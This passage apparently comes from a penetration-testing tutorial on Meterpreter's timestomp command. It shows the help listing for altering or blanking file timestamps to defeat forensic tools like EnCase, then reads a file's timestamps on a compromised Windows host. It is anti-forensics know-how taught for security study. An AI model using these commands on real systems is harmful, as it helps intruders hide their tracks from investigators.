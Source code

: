 After the Meterpreter shell is opened, you can view the help information with the `timestomp -h` command.

```bash
meterpreter > timestomp -h

Usage: timestomp OPTIONS file_path

OPTIONS:

 -a Set the "last accessed" time of the file
 -b Set the MACE timestamps so that EnCase shows blanks
 -c Set the "creation" time of the file
 -e Set the "mft entry modified" time of the file
 -f Set the MACE of attributes equal to the supplied file
 -h Help banner
 -m Set the "last written" time of the file
 -r Set the MACE timestamps recursively on a directory
 -v Display the UTC MACE values ​​of the file
 -z Set all four attributes (MACE) of the file
```

Now, let's go to the folder where the `test.txt` file we gave the example above is located.

```bash
meterpreter > pwd
C:\Program Files\War-ftpd
meterpreter > cd ..
meterpreter > pwd
C:Program Files
meterpreter > cd ..
meterpreter > cd Documents\ and\Settings
meterpreter > cd P0WN3D
meterpreter > cd My\Documents
meterpreter > ls

Listing: C:\Documents and Settings\P0WN3D\My Documents
**==========================================================**

Mode Size Type Last modified Name
---- ---- ---- ------------- ----
40777/rwxrwxrwx 0 dir Wed Dec 31 19:00:00 -0500 1969 .
40777/rwxrwxrwx 0 dir Wed Dec 31 19:00:00 -0500 1969 ..
40555/r-xr-xr-x 0 dir Wed Dec 31 19:00:00 -0500 1969 My Pictures
100666/rw-rw-rw- 28 fil Wed Dec 31 19:00:00 -0500 1969 test.txt
```

You can view the time information of the `test.txt` file in the current folder with the `-v` option.

```bash
meterpreter > timestomp test.txt -v
Modified      : Sun May 03 04:30:36 -0400 2009
Accessed      : Sun May 03 04:31:51 -0400 2009
Created       : Sun May 03 04:30:08 -0400 2009
Entry Modified: Sun May 03 04:31:44 -0400 2009
```
